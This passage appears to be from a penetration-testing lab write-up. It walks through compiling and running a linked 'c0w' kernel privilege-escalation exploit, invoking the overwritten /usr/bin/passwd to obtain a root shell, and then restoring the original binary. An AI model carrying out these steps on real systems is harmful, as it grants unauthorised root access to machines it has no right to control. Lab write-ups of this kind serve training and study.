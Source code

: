 [https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54](https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54)

Download and compile it **using the instructions in the file** <u>**As in, Uncommenting the correct payload!**</u>:

```bash - kali
gcc -pthread c0w.c -o c0w
```

Run the exploit:

```bash - kali
./c0w
```

Once the exploit is complete, simply execute the 
/usr/bin/passwd binary to get a root shell:

```bash - kali
/usr/bin/passwd
```

Restore the original file ==when complete:==

```bash - kali
cp /tmp/bak /usr/bin/passwd
```